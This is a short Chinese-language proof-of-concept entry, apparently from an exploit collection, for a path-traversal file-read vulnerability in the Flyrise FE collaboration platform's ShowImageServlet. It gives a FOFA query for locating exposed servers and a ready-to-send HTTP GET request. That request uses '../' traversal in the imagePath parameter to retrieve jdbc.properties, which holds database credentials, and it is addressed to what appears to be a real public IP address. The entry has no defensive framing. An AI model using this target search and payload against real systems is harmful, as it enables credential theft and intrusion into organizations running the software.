 # 飞企互联 FE 业务协作平台 ShowImageServlet 文件 magePath 参数文件读取漏洞

    ## fofa

```
body="js39/flyrise.stopBackspace.js" || body="src=\"/js39/flyrise.dialog.js" || body="src=\"/js39/external/jquery"
```

## poc

```
GET /servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&print HTTP/1.1
Host: 110.53.162.145:9090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip

```
